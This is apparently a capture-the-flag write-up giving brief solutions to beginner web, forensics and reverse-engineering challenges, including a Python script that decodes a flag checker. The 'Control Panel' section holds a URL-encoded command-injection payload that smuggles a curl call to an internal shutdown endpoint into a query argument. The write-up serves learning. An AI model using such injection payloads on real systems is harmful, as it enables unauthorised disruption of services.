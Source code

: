 

# Beginner's Room

flag structure: `SIVBGR{xxxxxx}`

## Control Panel [Web]

- modify the `aria-expanded="false"` to true
- then get the file and reverse engineer. Notice the `destroy.py` and the `/shutdown` path


URL encode the a malicious code to curl the localhost to get to `/shutdown`
`https://uscybercombine-s4-control-panel.chals.io/?command=destroy_humans&arg=%63%75%72%6C%20%2D%73%20%6C%6F%63%61%6C%68%6F%73%74%3A%33%30%30%30%2F%73%68%75%74%64%6F%77%6E`


## Secret [Forensics]
- open in kali and left click highlight over your items
- ![alt text](topsecret.png)



## I Want to Believe [Forensics]
- gift.gif
- possible lead? seems to have a white flash frame in the gif
ffmpeg -i input/gift.gif -fps_mode 0 temp/temp%d.png

steghide extract -sf ./gift.gif -p ""

## Hunt [web]

1. P1 inspect the html page
  - `SIVBGR{r1s3_`
2. P2 check /robots.txt
  - `0f_th3_`
3. p3 check `https://uscybercombine-s4-hunt.chals.io/secret-bot-spot` 
  - check the `robot.js` file: `r0b0ts!}`


## Flag Checker [Reverse Engineering]


- According to GPT: 
TLDR: literally swap out the operations in reverse and use better variable names. 


To decrypt the flag from this Python code, we need to reverse the operations applied to `libraryDiscussion` to transform it into `phoneSteak`. Here are the steps to decrypt the flag:

1. Reverse the final transformation which combines `lineMoon` and `puddingCommission`.
2. Reverse the swapping operations.
3. Reverse the XOR operation and the subtraction of 27.


```
# Given encrypted list
phoneSteak = [55, 33, 52, 40, 35, 56, 86, 90, 66, 111, 81, 26, 23, 75, 109, 26, 88, 90, 75, 67, 92, 25, 87, 88, 92, 84, 23, 88]

# Step 1: Reverse the final transformation (combine lineMoon and puddingCommission)
len_tinRoyalty = len(phoneSteak)
mid = len_tinRoyalty // 2
furRegret = phoneSteak
lineMoon = furRegret[:mid]
puddingCommission = furRegret[mid:]
puddingCommission.reverse()
tinRoyalty = lineMoon + puddingCommission

# Step 2: Reverse the swapping operations
seaTent = 6
callCover = 17
foxEmbox = (248 // len_tinRoyalty) % len_tinRoyalty
outfitStrike = 10
brushCopy = (341 // len_tinRoyalty) % 17
injectPush = (1240 + 28 // len_tinRoyalty) % len_tinRoyalty

# Swapping outfitStrike and foxEmbox
tinRoyalty[outfitStrike], tinRoyalty[foxEmbox] = tinRoyalty[foxEmbox], tinRoyalty[outfitStrike]

# Swapping callCover and brushCopy
tinRoyalty[callCover], tinRoyalty[brushCopy] = tinRoyalty[brushCopy], tinRoyalty[callCover]

# Swapping seaTent and injectPush
tinRoyalty[seaTent], tinRoyalty[injectPush] = tinRoyalty[injectPush], tinRoyalty[seaTent]

# Step 3: Reverse the XOR operation and the subtraction of 27
decrypted_values = [value ^ 15 for value in tinRoyalty]
original_ascii_values = [value + 27 for value in decrypted_values]

# Convert ASCII values back to characters to form the flag
decrypted_flag = ''.join(chr(value) for value in original_ascii_values)

print(decrypted_flag)
```